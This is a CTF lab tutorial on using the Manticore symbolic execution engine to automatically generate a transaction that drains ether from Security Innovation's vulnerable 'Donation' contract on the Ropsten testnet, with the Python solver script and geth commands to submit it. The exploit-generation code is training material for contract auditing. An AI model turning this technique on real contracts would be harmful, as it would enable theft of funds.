


Symbolic execution is an essential tool in modern program analysis and vulnerability discovery. Symbolic execution of smart contracts is a developing field, but will most likely be a useful tool for smart contract auditing and vulnerability testing. In this codelab, you will be tackling some of the "capture-the-flag'' (CTF) exercises from Security Innovation's blockchain CTF using the open-source symbolic execution framework, manticore. Specifically, you will employ the Manticore symbolic execution engine to automatically generate a transaction that will solve the initial CTF level (Donation). You will then be able to directly submit solutions to the CTF framework using geth.
geth command linegeth light nodegeth and tmux sessionsConnect back into VM you installed geth and manticore into. Within the VM, re-attach to your tmux session (or recreate it using the directions from the previous lab)
tmux attach
Ideally, you should have at least 3 sessions.
geth session synchronizing the light node with the Ropsten network viageth \ --allow-insecure-unlock \ --ropsten \ --http --http.addr 127.0.0.1 \ --http.port 8545 --http.api admin,eth,net,web3,personal \ --nousb
geth attach http://127.0.0.1:8545/
cs410b-src/manticore_labs/manticore_scripts, for editing the Manticore solution scripts and running them.Symbolic execution is the basis of auto exploit generation. To do symbolic execution, we work to find critical points in the code, using symbolic variables.
To find exploits, we replace concrete variables (like 1 or 'A' or 0x54d7afe3) with symbolic ones that, instead of representing a single value, represent a range of values, like (not 1) or (x < 5 and x > 2). These conditionals that make up symbolic variables are called "constraints."
In order to find an exploit, we need to tell the symbolic execution engine what an exploit looks like.
In this first level, the exploit is obvious because there's a public function that allows anyone to grab all of the ether. Telling the symbolic execution engine to call this function isn't very interesting though. A more interesting experiment is simply telling manticore only that it needs to find a way to extract ether from the contract and letting it use symbolic execution to find the answer. This is a more robust way to check for security bugs in your contracts, allowing you to check if any function would lead to ether being stolen.
contract Donation{
using SafeMath for uint256;
uint256 public funds;
constructor(address _ctfLauncher, address _player) public payable {
funds = funds.add(msg.value);
}
function() external payable {
funds = funds.add(msg.value);
}
function withdrawDonationsFromTheSuckersWhoFellForIt() external {
msg.sender.transfer(funds);
funds = 0;
}
}In this example, we've setup the manticore symbolic executor to inspect the Donation contract for critical endpoints and we've told it that it needs to find an input where our attacker gets all of the ether from the victim contract.
# Instantiate Manticore's Symbolic Ethereum Virtual Machine
m = ManticoreEVM()
# Create an account for your wallet address on the EVM.
# Give it enough to deploy vulnerable contract
# (technically not what is done in real-life)
user_account = m.create_account(address=from_address, balance=contract_balance)
# Create the Donation CTF level contract on the EVM using wallet
# contract_src = Prior source code
# contract_name = Name of contract in source code
# owner = Uses your wallet to deploy (OK for this level)
# balance = Deploy with msg.value that the CTF level is deployed with
# args = Arguments to deploy contract (null in this case)
contract_account = m.solidity_create_contract(
contract_src,
contract_name="Donation",
owner=user_account,
balance=contract_balance,
args=(0,0)
)
# Ethereum contracts called via msg.data with 4 bytes of the keccak256 hash of the
# function signature with whitespace removed (e.g. someFunction(uint256,uint256))
# Make symbolic buffer to hold msg.data and ask Manticore to calculate the "winning" value
sym_args = m.make_symbolic_buffer(4)
# Issue a symbolic transaction to the EVM by setting msg.data to symbolic buffer
m.transaction(
caller=user_account,
address=contract_account.address,
data=sym_args,
value=0,
gas=gas
)
# Symbolically execute program to find an exploit that obtains our funds back.
for state in m.running_states:
world = state.platform
# Check if funds can be retrieved
if state.can_be_true(world.get_balance(user_account.address) == contract_balance):
# If so, add constraint
# Then concretize symbolic buffer to provide one solution
state.constraints.add(world.get_balance(user_account.address) == contract_balance)
conc_args = state.solve_one(sym_args)
# Print out our transaction to send to win
print(f'''eth.sendTransaction({{data:"0x{conc_args.hex()}", from:"0x{from_address:040x}", to:"0x{si_level_address:040x}", gas:{gas}}})''')Now, inside your tmux shell, you can run the manticore script. Ensure that you use the correct address for the CTF level and your own wallet address for the fields in red.
cd manticore_scripts python3 donation_solution.py 0xYourWalletAddress 0xCtfLevelAddress
This will attack the SI level in SI_ctf_levels/Donation.sol and find an exploit that solves it.

The script has automatically calculated the msg.data for the transaction along with the sender and receiver of the transaction. From our previous solution and our knowledge of what msg.data represents, adapt the following Python script to generate the full keccak256 hash of the function being called. Ensure its first 4 bytes match what is shown in the prior screenshot.
import sha3
function_string = '. . .'
k = sha3.keccak_256(function_string.encode('utf-8'))
print(k.hexdigest())You can reverse the attack that the manticore script spits out and put the arguments into Remix, or you can directly paste it into geth's sendTransaction function to win the level automatically. In order to do this, you have to utilize the geth light node set up previously. (Note: that it must be fully synced to handle the transaction you will send it and you will need to have imported your wallet into it for it to use to sign transactions from your address)
In your interactive geth session, unlock the wallet you previously instantiated:
personal.unlockAccount(eth.accounts[0], 'password', 3600)You can now send the transaction that Manticore generated for you.
eth.sendTransaction({from:"0xYourAddress", data:"0x05b0e426", to:"0xSICtfLevelAddress", gas:100000})Screenshot the output (i.e. the resulting transaction hash), then paste the transaction hash into Etherscan and show a screenshot of it showing the transfer from the CTF level contract back to your wallet. Include both in your lab notebook. You do not need to commit the code into your repository.

If your transaction takes a long time, try upping the gas price. This should complete the CTF level, reducing the contract to 0 ether.
If you receive an error from geth attach like:
Error: no suitable peers available
Ensure your geth light node is syncing and is caught up. If it is, you will need to restart geth. Exit out of the interactive geth session, then kill (Ctrl-c) the the geth session performing the syncing and then bring both back up as described in the prior lab.
Congratulations on applying symbolic execution to automatically retrieve money from a smart contract. Continue to the next level for more!